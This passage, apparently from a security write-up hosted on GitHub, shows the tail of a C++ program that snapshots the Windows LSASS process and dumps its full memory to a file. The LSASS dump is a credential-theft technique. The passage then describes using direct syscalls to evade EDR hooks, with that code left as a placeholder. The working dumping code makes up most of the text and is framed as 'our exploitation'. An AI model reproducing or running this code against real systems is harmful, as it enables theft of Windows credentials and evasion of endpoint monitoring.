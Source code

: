 ```cpp
    DWORD status = PssCaptureSnapshot(
        hLsass,
        PSS_CAPTURE_VA_CLONE | PSS_CAPTURE_HANDLES | PSS_CAPTURE_HANDLE_NAME_INFORMATION |
        PSS_CAPTURE_THREADS | PSS_CAPTURE_THREAD_CONTEXT,
        CONTEXT_ALL,
        &snapshotHandle
    );

    if (status != ERROR_SUCCESS) {
        std::cerr << "[-] PssCaptureSnapshot failed. Error: " << status << "\n";
        CloseHandle(hLsass);
        return 1;
    }

    // Step 5: Create output file to write the memory dump
    HANDLE hFile = CreateFileW(L"lsass_pss.dmp", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        std::cerr << "[-] Failed to create dump file.\n";
        PssFreeSnapshot(GetCurrentProcess(), snapshotHandle);
        CloseHandle(hLsass);
        return 1;
    }

    // Step 6: Write memory dump using MiniDumpWriteDump (dump original handle)
    BOOL dumped = MiniDumpWriteDump(
        hLsass, lsassPid,
        hFile,
        MiniDumpWithFullMemory,
        NULL, NULL, NULL
    );

    if (!dumped) {
        std::cerr << "[-] MiniDumpWriteDump failed. Error: " << GetLastError() << "\n";
    } else {
        std::cout << "[+] Memory dump written successfully to lsass_pss.dmp\n";
    }

    // Step 7: Cleanup
    CloseHandle(hFile);
    PssFreeSnapshot(GetCurrentProcess(), snapshotHandle);
    CloseHandle(hLsass);

    return 0;
}

```


### Direct Syscall
##### About
As discussed in the first part, this technique avoids the APIs that are hooked by the EDRs so they can monitor our activity and directly calls the syscall we aim to use. So instead of going through the hooked/replaced stubs that will detect our activity, we will manually call a clean syscall to proceed with our exploitation.
Here is how the process goes:
1. We read the Syscall number `SSN` manually.
2. Prepare registers as Windows expects.
3. Create an assembly code to manually call the `syscall` instruction directly, thus bypassing the hook.
##### Code
```cpp
// Placeholder until I finish the whole code.
```